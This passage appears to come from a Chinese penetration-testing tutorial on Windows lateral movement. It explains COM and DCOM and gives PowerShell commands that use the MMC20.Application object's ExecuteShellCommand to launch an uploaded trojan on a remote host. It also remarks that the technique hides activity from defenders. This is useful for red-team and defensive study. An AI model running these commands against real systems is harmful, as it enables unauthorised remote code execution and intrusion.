 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlOWamA2icUibsjCckfrT2EsN9vWbIkH9nsBJriay1vcouGu6XiaLzOWCiasw/640?wx_fmt=png)

这时候靶机进程就会出现`calc.exe`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlLG3lF6TRCiaFbhchD6kFicyWIp5FjuiaxrWq2WibCXbmU4JjmgRfmibVjKQ/640?wx_fmt=png)

利用 DCOM
=======

此部分主要参考了三好学生大佬的文章：域渗透 - 利用 DCOM 在远程系统执行程序，在此对三好学生大佬表示衷心感谢。

这里先提两个概念，`COM`和`DCOM`

> `COM`即组件对象模型 (Component Object Model，`COM`) ，是基于 Windows 平台的一套**组件对象接口标准**，由一组**构造规范**和**组件对象库**组成。`COM`是许多微软产品和技术，如 Windows 媒体播放器和 Windows Server 的基础。一般的对象是由数据成员和作用在其上的方法组成，而组件对象和一般对象虽有相似性，但又有较大不同。组件对象不使用方法而用接口来描述自身。接口被定义为 “在对象上实现的一组语义上相关的功能”，其实质是一组函数指针表，每个指针必须初始化指向某个具体的函数体，一个组件对象实现的接口数量没有限制。

关于这个`COM`，其实应该有很多师傅见过，那就是在 windows 情况下`php`为数不多的几种`disable_functions`的方法之一，就是利用 windows 的`COM`组件进行绕过，这里我就不往深处拓展了

> `DCOM`（分布式组件对象模型）是微软基于组件对象模型（`COM`）的一系列概念和程序接口，它支持不同的两台机器上的组件间的通信，不论它们是运行在局域网、广域网、还是 Internet 上。利用这个接口，客户端程序对象能够向网络中另一台计算机上的服务器程序对象发送请求。DCOM 是 COM（组件对象模型）的扩展，它允许应用程序实例化和访问远程计算机上 COM 对象的属性和方法。DCOM 使用远程过程调用（RPC）技术将组件对象模型（COM）的功能扩展到本地计算机之外，因此，在远程系统上托管 COM 服务器端的软件（通常在 DLL 或 exe 中）可以通过 RPC 向客户端公开其方法。

攻击者可使用 `DCOM` 进行横向移动，通过 `DCOM`，攻击者可在拥有适当权限的情况下通过 Office 应用程序以及包含不安全方法的其他 Windows 对象远程执行命令。

使用`DCOM`进行横向移动的优势之一在于，**在远程主机上执行的进程将会是托管 COM 服务器端的软件**。例如我们滥用`ShellBrowserWindow COM`对象，那么就会在远程主机的现有`explorer.exe`进程中执行。对攻击者而言，这无疑能够增强隐蔽性，由于有大量程序都会向`DCOM`公开方法，因此防御者可能难以全面监测所有程序的执行。

这里利用`DCOM`进行横向移动有两个条件：

```
1.能关闭靶机防火墙2.拥有cmdshell、靶机需要使用administrator账户
```

`DCOM`进行横向移动的操作如下：

1. 与靶机建立 ipc 连接

2.cs 生成木马使用 copy 命令上传到靶机

3. 调用`DCOM`远程执行命令

调用 MMC20.Application 远程执行命令
---------------------------

通过`PowerShell`与`DCOM`进行远程交互，此外，我们只需要提供一个`DCOM ProgID`和一个 IP 地址，然后，它就从远程返回一个`COM对象`的实例。

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.52.138))
```

```
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c c:\shell.exe","Minimized")
```

执行以上命令我们就可以调用`ExecuteShellCommand`方法在远程主机上启动进程

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBld7G5P5BKDg48U2ZRx5vHuiabtPhMZboPUfl747Sb3EIXCMvzAgDnebw/640?wx_fmt=png)

调用 9BA05972-F6A8-11CF-A442-00A0C90A8F39
---------------------------------------
